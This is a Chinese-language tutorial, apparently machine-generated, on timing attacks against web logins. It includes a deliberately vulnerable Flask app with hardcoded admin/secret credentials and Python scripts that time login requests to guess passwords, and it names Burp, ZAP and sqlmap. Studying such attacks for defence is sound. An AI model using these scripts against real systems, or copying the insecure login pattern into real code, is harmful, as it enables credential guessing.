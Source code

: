 # 时间窗口攻击的案例分析

## 1. 技术原理解析

### 1.1 时间窗口攻击概述
时间窗口攻击（Time-based Attack）是一种利用系统在处理请求时的时间差异来推断或获取敏感信息的攻击方式。攻击者通过测量系统响应时间的变化，推断出系统内部的状态或数据，进而实施进一步的攻击。

### 1.2 底层实现机制
时间窗口攻击的核心在于系统在处理不同输入时的响应时间差异。这种差异可能源于以下几个方面：
- **条件判断**：系统在处理请求时，可能会根据输入的不同执行不同的代码路径，导致响应时间不同。
- **资源访问**：系统在访问不同资源（如数据库、文件系统）时，响应时间可能不同。
- **加密操作**：加密算法在处理不同输入时，执行时间可能不同。

### 1.3 攻击流程
1. **探测**：攻击者发送大量精心构造的请求，测量系统响应时间。
2. **分析**：通过分析响应时间，推断出系统内部的状态或数据。
3. **利用**：根据推断结果，实施进一步的攻击，如密码猜测、数据提取等。

## 2. 变种和高级利用技巧

### 2.1 基于条件判断的时间窗口攻击
攻击者通过构造不同的输入，触发系统执行不同的代码路径，从而测量响应时间差异。例如，在密码验证过程中，系统可能会在密码正确时执行更多的操作，导致响应时间较长。

### 2.2 基于资源访问的时间窗口攻击
攻击者通过访问不同的资源，测量系统响应时间。例如，在文件系统中，访问存在的文件和访问不存在的文件，响应时间可能不同。

### 2.3 基于加密操作的时间窗口攻击
攻击者通过测量加密算法的执行时间，推断出加密密钥或明文信息。例如，在RSA加密过程中，不同的输入可能导致模幂运算的执行时间不同。

### 2.4 高级利用技巧
- **时间窗口扩展**：通过增加请求的复杂性，扩大响应时间差异，提高攻击的准确性。
- **并行攻击**：同时发送多个请求，利用多核处理器的并行计算能力，加速攻击过程。
- **统计分析**：通过统计分析方法，消除噪声，提高攻击的准确性。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
为了模拟时间窗口攻击，我们需要搭建一个简单的Web应用环境。以下是一个基于Python Flask的示例应用：

```python
from flask import Flask, request
import time

app = Flask(__name__)

@app.route('/login', methods=['POST'])
def login():
    username = request.form['username']
    password = request.form['password']
    
    # 模拟密码验证过程
    if username == 'admin' and password == 'secret':
        time.sleep(0.5)  # 模拟密码正确时的延迟
        return 'Login successful'
    else:
        time.sleep(0.1)  # 模拟密码错误时的延迟
        return 'Login failed'

if __name__ == '__main__':
    app.run(debug=True)
```

### 3.2 攻击步骤
1. **探测**：使用Python脚本发送大量登录请求，测量响应时间。

```python
import requests
import time

def measure_response_time(username, password):
    start_time = time.time()
    response = requests.post('http://localhost:5000/login', data={'username': username, 'password': password})
    end_time = time.time()
    return end_time - start_time

# 发送100次请求，测量响应时间
for i in range(100):
    response_time = measure_response_time('admin', 'wrong_password')
    print(f'Response time: {response_time}')
```

2. **分析**：通过分析响应时间，推断出密码是否正确。

```python
# 统计响应时间
response_times = []
for i in range(100):
    response_time = measure_response_time('admin', 'wrong_password')
    response_times.append(response_time)

# 计算平均响应时间
average_response_time = sum(response_times) / len(response_times)
print(f'Average response time: {average_response_time}')
```

3. **利用**：根据推断结果，实施进一步的攻击。

```python
# 猜测密码
for password_guess in ['password', '123456', 'secret']:
    response_time = measure_response_time('admin', password_guess)
    if response_time > 0.4:  # 假设密码正确时的响应时间大于0.4秒
        print(f'Password found: {password_guess}')
        break
```

## 4. 实际命令、代码或工具使用说明

### 4.1 使用Burp Suite进行时间窗口攻击
Burp Suite是一款常用的Web安全测试工具，支持时间窗口攻击的自动化探测和分析。

1. **配置Burp Suite**：启动Burp Suite，配置代理，拦截登录请求。
2. **发送请求**：使用Burp Intruder模块，发送大量登录请求，测量响应时间。
3. **分析结果**：通过Burp Intruder的响应时间分析功能，推断出密码是否正确。

### 4.2 使用Python脚本进行时间窗口攻击
如前所述，可以使用Python脚本发送大量请求，测量响应时间，并分析结果。

### 4.3 使用工具进行高级攻击
- **OWASP ZAP**：一款开源的Web应用安全扫描工具，支持时间窗口攻击的自动化探测和分析。
- **sqlmap**：一款自动化的SQL注入工具，支持基于时间窗口的盲注攻击。

## 结论
时间窗口攻击是一种隐蔽且高效的攻击方式，攻击者通过测量系统响应时间，推断出系统内部的状态或数据。为了防御时间窗口攻击，开发者应确保系统在处理不同输入时的响应时间一致，避免泄露敏感信息。同时，安全测试人员应使用自动化工具，及时发现和修复时间窗口漏洞。

---

*文档生成时间: 2025-03-12 11:57:19*
